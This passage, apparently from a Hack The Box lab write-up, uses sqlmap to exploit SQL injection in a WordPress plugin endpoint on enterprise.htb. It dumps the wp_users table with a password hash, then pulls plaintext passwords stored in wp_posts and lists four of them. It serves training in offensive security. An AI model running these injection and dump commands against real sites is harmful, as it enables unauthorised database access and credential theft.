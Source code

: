 ```bash
```

### Dumping wordpress
Dumping wp_users table from wordpress database:
```bash
$ sqlmap -u http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -dbms mysql --dump --threads 10 -D wordpress  -T wp_users   
Database: wordpress
Table: wp_users
[1 entry]
+----+----------+------------------------------------+------------------------------+---------------+-------------+---------------+---------------+---------------------+---------------------+
| ID | user_url | user_pass                          | user_email                   | user_login    | user_status | display_name  | user_nicename | user_registered     | user_activation_key |
+----+----------+------------------------------------+------------------------------+---------------+-------------+---------------+---------------+---------------------+---------------------+
| 1  | <blank>  | $P$BFf47EOgXrJB3ozBRZkjYcleng2Q.2. | william.riker@enterprise.htb | william.riker | 0           | william.riker | william-riker | 2017-09-03 19:20:56 | <blank>             |
+----+----------+------------------------------------+------------------------------+---------------+-------------+---------------+---------------+---------------------+---------------------+

```

Dumping wp_posts table from wordpress database where ID 66-68 contains passwords:
```bash
$ sqlmap -u http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch --dump --threads 10 -dbms mysql -D wordpress  -T wp_posts -C post_content --where "ID>=66 and ID<=68"

Database: wordpress
Table: wp_posts
[3 entries]
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| post_content                                                                                                                                                                 |
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Needed somewhere to put some passwords quickly\r\n\r\nZxJyhGem4k338S2Y\r\n\r\nenterprisencc170\r\n\r\nu*Z14ru0p#ttj83zS6\r\n\r\n&nbsp;\r\n\r\n&nbsp;                         |
| Needed somewhere to put some passwords quickly\r\n\r\nZxJyhGem4k338S2Y\r\n\r\nenterprisencc170\r\n\r\nZD3YxfnSjezg67JZ\r\n\r\nu*Z14ru0p#ttj83zS6\r\n\r\n&nbsp;\r\n\r\n&nbsp; |
| Needed somewhere to put some passwords quickly\r\n\r\nZxJyhGem4k338S2Y\r\n\r\nenterprisencc170\r\n\r\nZD3YxfnSjezg67JZ\r\n\r\nu*Z14ru0p#ttj83zS6\r\n\r\n&nbsp;\r\n\r\n&nbsp; |
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
```

Got 4 passwords here:
```
enterprisencc170
u*Z14ru0p#ttj83zS6
ZD3YxfnSjezg67JZ
ZxJyhGem4k338S2Y
```

